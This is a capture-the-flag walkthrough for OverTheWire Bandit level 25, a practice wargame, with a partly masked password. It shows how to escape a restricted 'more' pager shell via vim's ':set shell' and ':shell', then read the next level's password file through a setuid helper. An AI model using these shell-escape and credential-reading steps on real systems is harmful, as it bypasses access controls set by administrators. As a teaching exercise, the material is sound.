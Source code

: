 ## level 25

>bandit25:iCi86ttT4KSNe1armKiw************

Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.

### Solution:

>⚠️ **Note:** To get `more` executed, you have to resize your terminal since the text shown is very short.

```bash
# connect to bandit26 with the given rsa key
ssh bandit26@localhost -p 2220 -i bandit26.sshkey

# when more is executed press v to enter vim mode
v

# set the default shell in vim to /bin/bash
:set shell=/bin/bash

# execute a shell
:shell

# use the suid binary to grab the password for bandit27
./bandit27-do cat /etc/bandit_pass/bandit27
```